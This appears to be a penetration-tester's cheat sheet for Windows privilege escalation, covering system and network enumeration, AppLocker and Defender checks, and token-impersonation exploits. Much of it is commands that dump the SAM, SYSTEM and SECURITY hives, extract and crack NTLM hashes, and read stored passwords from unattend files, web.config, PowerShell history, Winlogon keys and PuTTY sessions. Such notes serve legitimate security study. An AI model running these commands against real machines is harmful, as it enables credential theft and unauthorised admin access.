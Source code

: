 
| `ipconfig /all`        | Shows network interfaces and IP addresses                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| ---------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `arp -a`               | Lists IPs the system recently talked to                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| `route print`          | Shows where network traffic goes                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| `Get-MpComputerStatus` | Checks if antivirus and Defender are on<br>```<br>RealTimeProtectionEnabled       : False<br>OnAccessProtectionEnabled       : False<br>BehaviorMonitorEnabled          : False<br>IoavProtectionEnabled           : False<br>```<br>- 🔹 These lines mean **Defender is not watching files in real time.**<br>- 🔹 You can likely **run tools, exploits, or scripts** without being blocked.<br>```bash<br>AntivirusEnabled                : True<br>AntivirusSignatureAge           : 1451<br>   AntivirusSignatureLastUpdated   : 8/7/2021<br>``` |
| `Get-AppLockerPolicy`  | Shows what apps are allowed or blocked                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| `Test-AppLockerPolicy` | Tests if a file is allowed to run                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
### AppLocker Rules
```powershell
Get-AppLockerPolicy -Effective | Select-Object -ExpandProperty RuleCollections
```
his shows you AppLocker rules for different executable types:
- EXE and DLL
- MSI and Script
- Appx
Look for **`Deny` rules** in the output.

### System Enumeration
Basic System Info
```bash
systeminfo                          # Detailed system config
hostname                            # Hostname
wmic qfe get Caption,Description,HotFixID,InstalledOn  # Installed patches
wmic logicaldisk get name          # Logical drives
net user                            # List all users
net user [username]                # Info about specific user
whoami                              # Current user
whoami /priv                        # Current user's privileges
net localgroup                      # list all groups
net localgroup "Backup Operators"   # list all users in backup operators group
```
 User Group and Privileges (Filtered View)
```bash
whoami /all | Select-String -Pattern "username" -Context 2,0
# Example: whoami /all | Select-String -Pattern "wade" -Context 2,0
```
View Folder Structure
```bash
tree /f    # Shows files and directories recursively
```
### Network Enumeration
```bash
ipconfig /all           # All IP config info
netstat -ano            # Active connections and listening ports
```
# What service is listening on port 8080
```cmd
netstat -ano | findstr :8080
```
Then take the PID (last column), and run:
```cmd
tasklist /FI "PID eq <pid_number>"
```
That gives you the **executable name** (e.g., `java.exe`), then look up which **service** uses that executable.
# Finding 
```cmd
dir /s /b C:\accesschk.exe
```
This searches your `C:` drive for the file `accesschk.exe`.

# What user is logged in to the target host?
```cmd
query user
```

# How to check permissions

```cmd
accesschk.exe \pipe\SQLLocal\SQLEXPRESS01 -v
```

### Token Privilege Exploits
Check for SeImpersonatePrivilege

```bash
whoami /priv
```
Juicy Potato, RoguePotato, or PrintSpoofer can be used if enabled.

### Credential Dumping & Password Hunting
 Registry Hive Dump (requires SYSTEM privileges)
```bash
reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SECURITY SECURITY
```
 Extracting Hashes
```bash
samdump2 SYSTEM SAM    # Dumps NTLM hashes
```
 Cracking Hashes
```bash
john --format=nt hash.txt --wordlist=rockyou.txt
hashcat -m 1000 hash.txt rockyou.txt
```
### Saved Windows Credentials
```bash
cmdkey /list
```
### Look for Passwords in Configs and Registry
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
### Sensitive File Discovery
 Unattended Installation Files
```bash
C:\Unattend.xml

C:\Windows\Panther\Unattend.xml

C:\Windows\Panther\Unattend\Unattend.xml

C:\Windows\system32\sysprep.inf

C:\Windows\system32\sysprep\sysprep.xml
```
 IIS/Web Config Files
```bash
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
### PowerShell History
View PowerShell Command History
```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
In PowerShell:
```powershell
Get-Content $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Scheduled Tasks
List and Investigate Tasks
```bash
schtasks                      # List tasks
schtasks /query /tn <name> /fo list /v   # Details of specific task
icacls c:\tasks\schtask.bat   # Who can modify this task
```
### Installed Software (Look for Vulnerabilities)
List Installed Software with Version
```bash
wmic product get name,version,vendor
```
Use this info to:
- Search for unpatched versions
- Identify misconfigurations

### PuTTY Saved Sessions (Possible Proxy Credentials)
```bash
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
### Using Found Credentials to Gain Access
Use runas to switch user
```bash
runas.exe /user:<username> cmd
```
You’ll be prompted to enter the password. If successful and the user is admin → you get admin CMD.

🧠 Bonus: More Password Dump Tools
creddump7

```bash
./pwdump.py SYSTEM SAM
```
